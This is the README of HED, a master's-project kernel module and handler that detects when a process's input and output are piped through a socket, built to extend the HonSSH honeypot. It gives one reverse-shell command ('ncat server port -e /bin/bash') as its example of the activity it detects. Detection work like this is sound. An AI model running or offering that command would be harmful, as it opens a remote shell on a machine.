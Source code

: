 # HED

<p align="center">
	<img alt="Logo" src="./doc/HEDLogo.png" height="220" width="240">
 </p>

HED is a tool developed for detecting when an "engage" is performed. What is an engage? Well... we are refer as "engage" to the procedure of multiplexing the input & output of a child process through a socket. For example: if you execute the following command:

	ncat server port -e /bin/bash

An engage to the server:port executing an instance of *BASH* is performed.

HED needs another party, contained inside the directory *Handler*, who receives the information related to the engage (i.e. IP Address & TCP Port) so it captures the traffic of this stream.

This is useful in certain environments. Our motivation is enhance the functionality of the software *HonSSH*:
    https://github.com/tnich/honssh


All this project is part of a project of a master, implementing a Honeypot; I am opened to questions and suggestions.
It is important to note that it is necessary to modify the Linux kernel before adding the kernel module... This is not very flexible... maybe I will implement a new version "ALL-IN-ONE" in a future.

The modifies files are the following:

	sched.h
	fork.c
	exit.c

The base Linux kernel version we have used is 4.1.18; but it can work in a large number of versions.

Fernando Vañó
